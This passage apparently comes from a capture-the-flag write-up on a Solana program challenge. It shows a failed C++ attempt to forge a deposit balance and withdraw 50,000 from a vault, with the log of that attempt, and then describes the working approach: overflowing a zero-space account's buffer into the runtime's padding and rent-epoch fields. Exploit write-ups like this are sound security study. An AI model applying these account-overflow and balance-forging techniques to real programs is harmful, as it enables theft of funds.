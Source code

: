 Now to actually attempt to do it.

```cpp
uint32_t target = 50'000;
system_create_account(NewAccountData{
    .lamports = 1,
    .space = 10240,
    .owner = *solve_account().key
});

Balance * balances = (Balance*)balances_account().data;
balances->deposits += target;

assign_account();

withdraw(balances_account().key, target, user_account().key, vault_account().key);
```

This was also not successful, which is probably a good thing, if you could do this in Solana you couldn't even trust data you own.

```
Log Messages:
    Program ARtqb4MDgp7aoPU6ev3TNiJuTkKkS49VN23f2onjLfVc invoke [1]
    Program log: Solution::run
    Program 11111111111111111111111111111111 invoke [2]
    Program 11111111111111111111111111111111 success
    Program 11111111111111111111111111111111 invoke [2]
    Program 11111111111111111111111111111111 success
    failed to verify account F7gNn7qAZ9TZNuEus9J3t8Csr1GUzFHMcxeuQJQ16VR2: instruction modified the program id of an account
    Program ARtqb4MDgp7aoPU6ev3TNiJuTkKkS49VN23f2onjLfVc consumed 2576 of 200000 compute units
    Program ARtqb4MDgp7aoPU6ev3TNiJuTkKkS49VN23f2onjLfVc failed: instruction modified the program id of an account
```

I did attempt a few different similar things of allocate, edit then transfer down the similar vain, but it wouldn't let me do it if the data was at all modified.

## Create a new account with no space (The solution)

Finally after all of the different experiments (and many more), I made the realization that if I can create accounts and transfer them, that I could make one which has zero space, and overflow it, which means that the 10k it would treat as the buffer would be the entire padding, leaving us one account two overflow.

So what is stored after that padding?

```c
input += MAX_PERMITTED_DATA_INCREASE;
input = (uint8_t*)(((uint64_t)input + 8 - 1) & ~(8 - 1)); // padding

// rent epoch
params->ka[i].rent_epoch = *(uint64_t *) input;
input += sizeof(uint64_t);
```
